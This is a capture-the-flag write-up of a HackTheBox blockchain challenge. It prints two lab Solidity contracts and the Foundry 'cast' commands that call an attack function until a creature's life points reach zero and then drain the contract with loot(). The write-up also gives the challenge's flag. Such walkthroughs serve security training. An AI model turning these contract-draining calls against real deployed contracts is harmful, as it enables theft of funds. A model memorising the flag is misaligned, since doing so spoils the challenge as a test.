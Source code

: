 # Survival of the Fittest
## DESCRIPTION:
Alex had always dreamed of becoming a warrior, but she wasn't particularly skilled. When the opportunity arose to join a group of seasoned warriors on a quest to a mysterious island filled with real-life monsters, she hesitated. But the thought of facing down fearsome beasts and emerging victorious was too tempting to resist, and she reluctantly agreed to join the group. As they made their way through the dense, overgrown forests of the island, Alex kept her senses sharp, always alert for the slightest sign of danger. But as she crept through the underbrush, sword drawn and ready, she was startled by a sudden movement ahead of her. She froze, heart pounding in her chest as she realized that she was face to face with her first monster.
## HINT:
- NONE
## STEPS:
1. In this challenge we're given 2 solidity codes.

> Creature.sol

```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 20;
    }

    function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
    
    function punch() external {
        _dealDamage(1);
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
}
```

> Setup.sol

```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }
    
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```

2. After opened the web applications, it seems we need to beat the enemy which has lifeStock of 20 (written in the Creature.sol) code.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5ccb2fa8-22d0-4ded-a7f9-f50ead547f1e)


3. Anyway you can solve this challenge by reading the guideline page by clicking the `docs` option at the navbar.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4822cb8c-a106-4754-8362-594d9f3e2134)


4. So let's just go straight-forward.

### FLOW

```
We need to do cast send strongAttack() function or we can just do it again and again by cast call punch() function.
When the lifePoints of creature is 0, then we do cast send loot() to get the flag.
Then we can open the flag at the /flag endpoint.
```

```
/rpc is our endpoint for the attack --> either using strongAttack() or punch().
Then we can check the enemy lifepoint simply by cast call lifePoints()
Next after we killed the enemy, we cast send loot().
And just access /flag to grab our flag.
```

5. We just need to use the private key address (because we will use cast send) and the target address.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f0e0db27-d619-41a4-8053-af10e2966853)


> BEATING THE ENEMY

```
cast send --rpc-url http://ip:port/rpc --private-key private_key_address target_address "strongAttack(dataType)" value
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1bedeff5-53a3-4bd9-bc35-4614ae049221)


> CHECKING THE LIFEPOINTS

```
cast call --rpc-url ip:port/rpc target_address "lifePoints()"
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f5afa25a-0730-4de5-a3f1-2509c172a37e)


6. Great we beat them.
7. Let's loot the flag!

> LOOT THE FLAG

```
cast send --rpc-url http://ip:port/rpc --private-key private_key_address target_address "loot()"
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/082021a4-80c5-4d3b-8813-d15a726196da)


8. Now let's open the /flag endpoint.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7e179ff0-8468-4fcd-bebd-0a38278d7439)


9. Got the flag!

## FLAG

```
HTB{g0t_y0u2_f1r5t_b100d}
```
